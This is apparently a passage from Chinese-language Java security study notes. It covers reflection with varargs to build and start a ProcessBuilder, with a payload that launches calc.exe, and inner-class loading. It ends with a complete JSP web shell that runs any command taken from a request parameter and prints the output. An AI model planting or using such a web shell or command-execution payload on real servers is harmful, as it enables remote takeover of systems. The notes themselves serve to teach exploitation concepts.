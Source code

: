   - 通过 getMethod("start") 获取到start方法，然后 invoke 执行， invoke 的第一个参数就是 ProcessBuilder Object了。
- 那么，如果我们要使用 `public ProcessBuilder(String... command) `这个构造函数，需要怎样用反射执行呢？

  - 这又涉及到Java里的可变长参数（varargs）了。正如其他语言一样，Java也支持可变长参数，就是当你 定义函数的时候不确定参数数量的时候，可以使用 ... 这样的语法来表示“这个函数的参数个数是可变 的”。
  - 对于可变长参数，Java其实在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价 的（也就不能重载）：

    ```java
    public void hello(String[] names) {}
    public void hello(String...names) {}
    ```
  - 也由此，如果我们有一个数组，想传给hello函数，只需直接传即可：

    ```java
    String[] names = {"hello", "world"};
    hello(names);
    ```
  - **那么对于反射来说，如果要获取的目标函数里包含可变长参数，其实我们认为它是数组就行了。**
  - 所以，我们将字符串数组的类 String[].class 传给 getConstructor ，获取 ProcessBuilder 的第二 种构造函数：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    clazz.getConstructor(String[].class)
    ```
  - 在调用 newInstance 的时候，因为这个函数本身接收的是一个可变长参数，我们传给 ProcessBuilder 的也是一个可变长参数，二者叠加为一个二维数组，所以整个Payload如下：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    ((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new
    String[][]{{"calc.exe"}})).start();
    ```

### 内部类

- 反射调用内部类的时候需要使用 `$`来代替.,如com.anbai.Test类有一个叫做Hello的内部类，那么调用的时候就应该将类名写成：`com.anbai.Test$Hello`。[比如fastjson在 checkAutoType 时候就会 先将 `$ `替换成 `.` ](https://github.com/alibaba/fastjson/blob/fcc9c2a/src/main/java/com/alibaba/fa stjson/parser/ParserConfig.java#L1038)
- Java的普通类 C1 中支持编写内部类 C2 ，而在编译的时候，会生成两个文件： C1.class 和 `C1$C2.class` ，我们可以把他们看作两个无关的类，通过 `Class.forName("C1$C2")` 即可加载这个内部类。其他操作都是一样的。

## java本地命令执行函数

- java提供了命令执行的函数，黑客通常会RCE利用漏洞或者WebShell来执行系统终端命令控制服务器的目的。
- **黑客通常会RCE利用漏洞或者WebShell来执行系统终端命令控制服务器的目的。**
- 在Java中我们通常会使用 `java.lang.Runtime`类的 `exec`方法来执行本地系统命令。

  ```jsp
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="java.io.ByteArrayOutputStream" %>
  <%@ page import="java.io.InputStream" %>
  <%
      InputStream in = Runtime.getRuntime().exec(request.getParameter("liudeha")).getInputStream();
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] b = new byte[1024];
      int a = -1;
      while ((a = in.read(b)) != -1) {
      	baos.write(b, 0, a);
  	}
  	out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
  %>
  ```
